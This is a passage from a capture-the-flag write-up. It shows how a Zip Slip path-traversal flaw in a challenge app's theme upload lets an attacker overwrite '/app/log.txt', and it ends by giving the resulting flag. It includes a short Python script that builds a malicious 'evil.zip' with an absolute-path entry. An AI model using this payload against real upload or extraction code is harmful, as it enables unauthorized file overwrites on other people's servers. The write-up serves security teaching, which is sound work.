

However, for this challenge, we somehow need to overwrite `/app/log.txt`. With this in mind, we can try a Zip Slip vulnerability; that is, we use path traversal to overwrite the `/app/log.txt` file.

We can use the following simple Python script to create a ZIP file with an absolute path (alternatively, we could use a relative path, but absolute will work and is easier to create). It creates a ZIP file `evil.zip` with file `/app/log.txt` containing `GIVEMETHETOKEN`. 

```bash
python - <<'PY'
import zipfile
with zipfile.ZipFile('evil.zip','w',zipfile.ZIP_DEFLATED) as z:
    z.writestr('/app/log.txt', 'GIVEMETHETOKEN')
PY
```

Simply copy that command into a terminal, and `evil.zip` should created. Upload `evil.zip` to the themes form, and then visit the home page to retrieve the token.



In this case, the token is `PCCC{Hello_From_The_Devs_7078}`.